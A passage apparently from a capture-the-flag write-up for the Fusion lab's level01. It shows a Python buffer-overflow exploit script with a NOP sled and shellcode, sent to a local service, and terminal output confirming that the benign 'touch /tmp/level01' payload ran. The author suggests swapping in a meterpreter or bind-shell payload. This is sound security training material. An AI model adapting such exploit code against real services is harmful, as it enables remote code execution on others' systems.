 ```
        esi = pack("<I", 0x9090E6FF)
        nops = "\x90"*100
        shellcode = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x13\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x65\x76\x65\x6c"
"\x30\x31\x00\x57\x53\x89\xe1\xcd\x80")

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        s.send("GET " + junk + ret + esi + " HTTP/1.1" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20001,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```

Now if we execute our exploit, it works just fine, bypassing ASLR and everything.

```
fusion@fusion:~$ ls -al /tmp
fusion@fusion:~$ ./level01.py
[*] Connecting to 127.0.0.1 on port 20001
fusion@fusion:~$ ls -al /tmp
total 8
drwxrwxrwt  2 root  root  4096 2012-07-03 23:32 .
drwxr-xr-x 22 root  root  4096 2012-05-07 21:53 ..
-rw-r--r--  1 20001 20001    0 2012-07-03 23:32 level01
```

There you have it. Our shellcode to "touch /tmp/level01" executed as the uid 20001.  That shellcode could then be replaced with something more malicious (read: meterpreter/bindshell) if desired.  But for PoC, that works.
